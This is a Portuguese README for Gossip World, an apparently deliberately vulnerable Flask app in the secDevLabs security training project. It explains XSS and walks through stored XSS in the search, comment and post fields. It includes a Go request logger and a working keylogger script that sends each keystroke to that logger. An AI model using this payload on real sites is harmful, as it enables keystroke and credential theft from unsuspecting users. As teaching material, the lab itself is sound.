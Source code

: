 # Gossip World

[Access content in English](README.md)

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World é um aplicativo Flask simples que contém um exemplo de vulnerabilidades de injeção múltipla (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-los neste aplicativo propositalmente vulnerável.

## Index

- [Definição](#o-que-é-cross-site-Scripting)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é Cross Site Scripting?

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Depois é só visitar [localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Criar um novo usuário
- Tente criar sua fofoca!
- Tente deixar um comentário em uma fofoca

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. Ocorre nos campos _search_, _comment_ e _post_. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Searching for a post:
<img src="images/attack-1.png" align="center"/>
<img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
<img src="images/attack-3.png" align="center"/>
<img src="images/attack-4.png" align="center"/>

Adding a new post:
<img src="images/attack-5.png" align="center"/>
<img src="images/attack-6.png" align="center"/>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir obterá todas as entradas de teclado de um usuário persistindo um código malicioso no servidor.

Primeiro, a seguinte API Golang pode ser construída (main.go) que registra todas as solicitações recebidas:

```go
package main
import (
   "fmt"
   "github.com/labstack/echo"
)
func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}
func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Em seguida, o invasor pode inserir uma nova postagem pela rota **/newgossip** usando o seguinte código no campo de texto:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

Este código implementa um keylogger para capturar todas as entradas de teclado dos usuários e enviá-las para a API criada anteriormente.

   <img src="images/attack-7.png" align="center"/>

Quando uma vítima acessa a postagem, o navegador interpreta o texto entre a tag do script como código e o executa secretamente. A imagem a seguir mostra a vítima digitando letras na página que foi "infectada" pelo JS malicioso: 

<img src="images/attack-8.png" align="center"/>

O invasor agora obtém toda a entrada no log do servidor, conforme mostrado abaixo:

<img src="images/attack-9.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
